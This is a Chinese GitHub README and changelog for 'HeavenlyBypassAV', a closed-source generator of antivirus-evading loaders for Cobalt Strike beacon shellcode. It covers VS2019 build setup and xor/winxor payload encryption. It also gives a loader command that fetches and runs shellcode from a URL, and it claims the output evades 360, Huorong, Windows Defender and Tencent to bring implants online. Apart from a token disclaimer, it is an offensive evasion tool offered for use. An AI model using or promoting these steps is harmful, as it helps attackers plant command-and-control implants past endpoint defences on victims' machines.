# 更新日志

## 3.0（重大更新）
2024.11.20更新，去除之前版本的VS2019配置，不需要配置。自带GCC编译，下载项目可直接生成免杀马，新增模块化选择生成操作。

本地分离马子使用：马子.exe code.bin  //code.bin可以改成任意格式

网络分离马子使用：马子.exe url链接 

示例：马子.exe http://www.baidu.com/1.txt



## 2.0
2024.06.20更新，解决生成马子免杀问题。


# HeavenlyBypassAV免杀工具

免责声明：仅用于技术交流，请勿用于非法用途。

Heavenly.exe是生成生成免杀加载器主进程，报毒正常，不含恶意代码。为保证免杀性，不公开源码，后续会更新

## 1.0
## 环境依赖设置

## 安装VS2019

双击运行下图程序安装VS2019。



下载C++桌面开发即可。





下图让你启动证明安装完成。



## 0x1运行Bat脚本一键设置环境变量

如不是默认安装路径修改Bat脚本标红选框为本机VS2019的安装目录即可。

```
默认安装路径：C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
```



## 0x2手动设置环境变量

[点击下载 (aka.ms)](https://aka.ms/vs/17/release/vs_BuildTools.exe)

[Visual Studio 2019 配置 MSVC 环境变量，使用命令行编译。_vs2019 命令行编译-CSDN博客](https://blog.csdn.net/a517858177/article/details/114525735)

### Path系统变量

注：该环境变量的作用是为了找到MSVC编译工具，MSVC编译工具自行安装。

```
D:\VS2019\VC\Tools\MSVC\14.29.30133\bin
D:\VS2019\VC\Tools\MSVC\14.29.30133\bin\Hostx64\x64
```





### INCLUDE系统变量

注：路径：C:\Program Files (x86)\Windows Kits\10\Include\是安装Visual Studio 自带路径

```
D:\VS2019\VC\Tools\MSVC\14.29.30133\include
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\shared
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\ucrt
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\um
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\winrt
```





### LIB系统变量(X64)

```
D:\VS2019\VC\Tools\MSVC\14.29.30133\lib\x64
D:\VS2019\VC\Tools\MSVC\14.29.30133\atlmfc\lib\x64
D:\VS2019\VC\Auxiliary\VS\lib\x64
C:\Program Files (x86)\Windows Kits\10\lib\10.0.19041.0\ucrt\x64
C:\Program Files (x86)\Windows Kits\10\lib\10.0.19041.0\um\x64
C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\lib\um\x64
```



# 1.0使用方式

只要把CS生成的beacon.bin文件放在和Heavenly.exe同一目录即可，然后可以双击运行exe，等待一会自动化生成。仅支持64位shellcode，默认采用xor加密，也可以使用命令行生成设置加密方法，暂支持xor和winxor两种加密方式，最后生成的文件是exe后缀。

**Tools目录**

tools目录为运行需要的依赖工具，其中favicon.ico和360zip_setup.exe可以替换，但替换后的文件名必须一样为favicon.ico和360zip_setup.exe。

```
Heavenly.exe 加密方法
```



## 免杀效果

**支持bypass 360、火绒、Windows Defender、腾讯电脑管家等，一键免杀上线CS**












